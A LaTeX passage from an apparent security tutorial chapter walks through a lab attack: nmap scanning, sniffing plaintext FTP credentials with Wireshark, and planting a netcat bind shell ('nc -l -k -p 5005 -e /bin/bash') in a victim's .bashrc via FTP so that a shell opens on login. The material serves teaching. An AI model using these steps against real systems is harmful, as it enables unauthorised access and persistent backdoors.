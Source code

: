 			To do this, the first step is to determine what the computer you are targeting is running.
			This is done using the tool ``nmap'' as below:
			\begin{lstlisting}[style=CLI]
				$ nmap -Sv <Target> -p-
			\end{lstlisting}
			This will give us a list of the services which are running on the server, as well as their names and ports.
			We will be looking at the FTP server, as it is currently allowing plain text authentication:
			\begin{quote}
				21/tcp    open  ftp         vsftpd 2.3.4
			\end{quote}
			Unlike SFTP, the modern protocol, FTP often allows for plain text authentication, meaning that a person intercepting traffic would be able to read the user name and password.
			This is how we will begin to gain access to the system.

			Open the program Wireshark and start a listener on eth1.
			This is the NIC that is connected to the remote server and that someone may be interacting with it on.
			Usually this would be done through means such as a \href{https://lanturtle.com/}{LAN Turtle},
			However, for the purposes of this demonstration, we will simply be using a local network interface.

			When the listener is setup, look for a set of TCP and FTP packets to the target from your machine.
			These will likely be the FTP authentication, so right click and select ``Follow TCP Stream'' to view the messages that were sent.
			At this point you should have the user name and password.
			If you do not, find another set of TCP and FTP messages and try again.
			For more information on using Wireshark, see it's section in Chapter \ref{ch:Forensics}.

			Now that we can alter files on their system, add the following line to their .bashrc.
			This will open a listener on port 5005 which can be interacted with from any computer on the network.
			\begin{lstlisting}[style=CLI]
				$ nc -l -k -p 5005 -e /bin/bash
			\end{lstlisting}

			Using FTP with the user name and password that you found, run the following commands:
			\begin{verse}
				get .bashrc
			\end{verse}
			Exit FTP at this point and edit the required line into the .bashrc then run the following FTP command:
			\begin{quote}
				put .bashrc
			\end{quote}
			This will mean that as soon as the msfadmin user logs into their account, a shell will be opened on port 5005.

